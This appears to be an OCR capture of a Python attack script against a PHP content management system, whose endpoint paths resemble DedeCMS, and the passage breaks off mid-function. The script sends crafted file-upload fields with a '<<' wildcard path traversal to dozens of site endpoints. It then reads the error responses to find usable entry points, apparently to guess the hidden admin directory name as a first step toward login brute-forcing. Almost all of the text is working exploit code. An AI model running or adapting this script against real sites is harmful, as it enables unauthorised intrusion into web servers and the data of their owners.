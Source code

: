     #!/usr/bin/env python
    #coding:utf-8
    import requests
    import itertools
    from random import choice
    import sys

    characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_!#@-"
    back_dir = ""

    show_message = {}
    check_message = {}
    valid_file = []
    data = {
        "_FILES[tools][tmp_name]" : "./../{p}<</images/adminico.gif",
        "_FILES[tools][name]" : 0,
        "_FILES[tools][size]" : 0,
        "_FILES[tools][type]" : "image/gif"
    }

    headers = {
            
                            "User-Agent":"Mozilla/5.0 (Windows NT 6.1; WOW64; rv:40.0) Gecko/20100101 Firefox/40.0",
                        "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                        "Accept-Language":"zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
                        "Content-Type":"application/x-www-form-urlencoded",
                        "Connection":"Close"
    }

    class Bute_Login:
            global headers
            def __init__(self,target):
                    self.target = target

            def Check(self):
                    global data,check_message,valid_file
                    
                    File_Chek_List =['/tags.php','/include/vdimgck.php','/m/list.php','/m/view.php','/member/config.php','/plus/advancedsearch.php',
                                      '/plus/arcmulti.php','/plus/bookfeedback.php','/plus/bookfeedback_js.php','/plus/car.php','/plus/carbuyaction.php',
                                      '/plus/comments_frame.php','/plus/count.php','/plus/digg_ajax.php','/plus/digg_frame.php','/plus/digg_frame.php',
                                         '/plus/disdls.php','/plus/diy.php','/plus/download.php','/plus/erraddsave.php',
                                         '/plus/feedback.php','/plus/feedback_ajax.php','/plus/flink.php','/plus/flink.php','/plus/flink_add.php',
                                         '/plus/freelist.php','/plus/heightsearch.php','/plus/list.php','/plus/mytag_js.php',
                                         '/plus/posttocar.php','/plus/qrcode.php','/plus/recommend.php','/plus/rss.php','/plus/search.php','/plus/showphoto.php',
                                         '/plus/stow.php','/plus/view.php','/plus/vote.php','/special/index.php']
                    for filename in File_Chek_List:
                            try:
                                    res = requests.post(self.target+filename,data=data)
                                    #print self.target+filename+"--->"+res.text
                                    if "Upload filetype not allow !" in res.text and res.status_code == 200:
                                            valid_file.append(filename)
                            except:
                                    pass
                    #print valid_file
                    #print valid_file
                    if len(valid_file):
                            if "/tags.php" in valid_file:
                                    for i in valid_file:
                                            if i == "/tags.php":
                                                    return i
                            else:
                                    file_name = choice(valid_file)